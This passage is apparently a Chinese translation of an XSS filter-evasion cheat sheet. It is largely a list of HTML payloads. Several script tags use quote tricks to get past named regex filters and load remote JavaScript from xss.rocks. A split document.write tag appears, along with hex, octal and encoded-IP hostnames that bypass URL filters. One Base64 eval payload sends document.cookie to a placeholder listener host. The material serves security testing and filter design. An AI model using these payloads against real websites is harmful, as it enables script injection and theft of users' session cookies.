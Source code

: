 ### 2.81 利用 HTML 引号包含的 XSS

注：源文章内容出现为 httx 的字符，测试改为 http，测试环境仅包括 chrome

这在 IE 中测试通过，但还得视情况而定。
它是为了绕过那些允许`<SCRIPT>`但是不允许`<SCRIPT SRC...`形式的正则过滤，即`/<script[^>]+src/i`：

(有效)

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

这是为了绕过那些允许 `<SCRIPT>` 但是不允许 `<SCRIPT SRC...` 形式的正则过滤，即`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i`（这很重要，因为在实际环境中出现过这种正则过滤）
(无效)

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

另一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*) src/i`的 XSS：
(有效)

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

又一个绕过正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)sr c/i`的 XSS。尽管不想提及防御方法，但如果你想允许`<SCRIPT>`标签但不加载远程脚本，针对这种 XSS 只能使用状态机去防御（当然如果允许`<SCRIPT>`标签的话，还有其他方法绕过）：
(有效)

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

最后一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\ s*)src/i`的 XSS，使用了重音符（在 Firefox 下无效）：
(无效)

```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

这是一个 XSS 样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：
(有效)

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

这个 XSS 很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：
(有效)

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### 2.82 URL 字符绕过

假定"http://www.google.com/"是不被允许的：

(应换成当前 google 对应的 ip，此处原文 ip 地址 已失效，demo 以 google 域名对应 即时 ip 及其编码为准-海秋)

#### 2.82.1. IP 代替域名(有效)

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

#### 2.82.2. URL 编码(有效)

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### 2.82.3. 双字节编码(未测试)

(注意：还有另一种双字节编码):

```html
<A HREF="http://1113982867/">XSS</A>
```

#### 2.82.4. 十六进制编码(有效)

每个数字的允许的范围大概是 240 位字符，就如你在第二位上看到的，并且由于十六进制 是在 0 到 F 之间，所以开头的 0 可以省略：

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### 2.82.5. 八进制编码(有效)

又一次允许填充，尽管你必须保证每类在 4 位字符以上-例如 A 类，B 类等等：

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### 2.82.6. Base64 编码(无效)

```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### 2.82.7. 混合编码(无效)

混合基本编码并在其中插入一些 TAB 和换行(虽然不知道浏览器为什么允许这样做)。

TAB 和换行只有被引号包含时才有效：

```html
<A HREF="h
tt p://6 6.000146.0x7.147/">XSS</A>
```

#### 2.84.8. 协议解析绕过(有效)

(// 替代 http://可以节约很多字节).当输入空间有限时很有用(少两个字符可能解决大问题) 而且可以轻松绕过类似"(ht|f)tp(s)?://"的正则过滤(感谢 Ozh 提供这部分).你也可以将"//" 换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径 URL：

```html
<A HREF="//www.google.com/">XSS</A>
```

#### 2.84.9. Google 的"feeling lucky" part 1

Firefox 使用 Google 的"feeling lucky"功能根据用户输入的任何关键词来让用户跳转到其认为最可能的网站。如果你存在漏洞的页面在某些随机关键词上搜索引擎排名是第一的，你就可以利用这一特性来攻击 Firefox 用户。这使用了 Firefox 的"keyword:"协议。你可以像下面一样使用多个关键词"keyword:XSS+RSnake"。这在 Firefox2.0 后不再有效。

```html
<A HREF="//google">XSS</A>
```

#### 2.84.10. Google 的"feeling lucky" part 2

这是用了一个仅在 Firefox 上有效的小技巧，因为他实现了"feeling lucky"功能。不像下面一个例子，这个在 Opera 上无效因为 Opera 会认为这个是一个老式的 HTTP 基础认证钓鱼攻击，但它并不是。他只是一个异常的 URL，如果你点击了对话框确定，它就可以生效。但是在 Opera 上会是一个错误错误对话框，所以认为其不被 Opera 所支持，同样在 Firefox 2.0 后不再有效。

```html
<A HREF="http://ha.ckers.org@google">XSS</A>
```

#### 2.84.11. Google 的"feeling lucky" part 3

这是一个异常的 URL，只作用于 Firefox 以及 Opera，因为他们实现了"feeling lucky"功能.像上面的例子一样，他要求你的攻击页面在 Google 上特定关键词排名第一(在这个示例里关键词是"google")

```html
<A HREF="http://google:ha.ckers.org">XSS</A>
```

#### 2.84.12. 移除别名

当结合上面的 URL，移除"www."会节约 4 个字节，总共为正确设置的服务器节省 9 字节:

```html
<A HREF="http://google.com/">XSS</A>
```

#### 2.84.13. 绝对 DNS 后额外的点

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### 2.84.14. JavaScript link location

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```
